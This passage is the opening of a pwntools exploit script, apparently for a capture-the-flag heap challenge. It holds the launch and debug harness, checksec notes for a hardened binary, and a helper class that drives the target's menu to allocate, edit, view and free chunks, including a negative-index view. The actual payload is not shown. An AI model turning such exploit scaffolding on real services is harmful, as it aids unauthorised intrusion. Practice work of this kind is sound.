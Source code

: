 ```py
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled
# RUNPATH:  b'./libs/'

class Daemon:
    def __init__(self, io):
        self.io = io
        self.io.sendlineafter(b'> ', b'1')
        self.io.recvuntil(b'Created deet ')
        self.index = int(self.io.recvuntil(b'\n', drop=True))

    def sice(self, string):
        self.io.sendlineafter(b'> ', b'2')
        self.io.sendlineafter(b'> ', str(self.index).encode())
        self.io.sendafter(b'> ', string)

    def filter(self, string):
        self.io.sendlineafter(b'> ', b'3')
        self.io.sendlineafter(b'> ', str(self.index).encode())
        self.io.sendlineafter(b'> ', string)

    def add_deet(self, size):
        self.sice(b'1\n')
        self.sice(f'{size}\n'.encode())

    def remove_deet(self, index):
        self.sice(b'2\n')
        self.sice(f'{index}\n'.encode())

    # requires sice after
    def edit_deet(self, index):
        self.sice(b'3\n')
        self.sice(f'{index}\n'.encode())

    def view_deet(self, index):
        self.sice(b'4\n')
        self.sice(f'{index}\n'.encode())

    def sync(self):
        daemon.view_deet(-1)
```